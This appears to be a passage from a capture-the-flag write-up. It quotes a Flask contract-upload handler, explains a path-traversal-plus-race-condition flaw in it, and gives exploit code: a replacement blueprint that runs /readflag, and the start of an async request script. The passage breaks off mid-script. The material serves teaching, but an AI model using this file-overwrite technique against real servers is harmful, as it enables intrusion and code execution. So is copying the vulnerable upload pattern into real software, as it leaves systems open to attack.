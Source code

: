     >     
    >     if uploadedFile.filename == '':
    >         return response('Invalid file!')
    > 
    >     uploadedFile.save('/tmp/temporaryUpload')
    > 
    >     isValidPDF = checkPDF()
    > 
    >     if isValidPDF:
    >         try:
    >             filePath = os.path.join(current_app.root_path, 'contracts', uploadedFile.filename)
    >             with open(filePath, 'wb') as wf:
    >                 with open('/tmp/temporaryUpload', 'rb') as fr:
    >                     wf.write(fr.read())
    > 
    >             return response('Contract Added')
    >         except Exception as e:
    >             print(e, file=sys.stdout)
    >             return response('Something went wrong!')
    >     
    >     return response('Invalid PDF! what are you trying to do?')
   > ```
   `os.path.join` is a method that we can exploit to perform Path Traversal with our controlled filename, the vulnerability can is described in picture below:
   ![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/b314a5ce-6ce1-440c-a2c7-c3c9ef25d9e7)
   
   The race condition part is, when the valid PDF with name `/hacked` and saved in `/tmp/temporaryUpload`, then continue to check the validity check of PDF, the new request is sent with arbitrary content, this file is overwrited the `/tmp/temporaryUpload`.

   When the check has been finished and passed, the code continue to the writing file:
   1. First `filePath` will be set to `/hacked`
   2. Second read `/tmp/temporaryUpload` file
   3. Third write the read content to destination `filePath` = `/hacked`

    With our controlled `filePath`, this could write the arbitrary content to `/hacked`
  
    Exploit code:
    > overwrite.py
    > ```py
    > from flask import Blueprint, render_template
    > import subprocess
    > 
    > challengeInfo = Blueprint('challengeInfo', __name__)
    > 
    > @challengeInfo.route('/')
    > def info():
    >     return subprocess.check_output(['/readflag'])
    > 
    > ```
  
    > exploit-pdf.py
    > ```py
    > import aiohttp
    > import asyncio
    > 
    > async def post_request(session, url, cookie, data):
    >     headers = {
    >         'Cookie': cookie
    >     }
    >     async with session.post(url, headers=headers, data=data) as response:
    >         return await response.text()
    > 
    > async def main():
    >     # url = 'https://83.136.250.12:47676/challenge/api/addContract'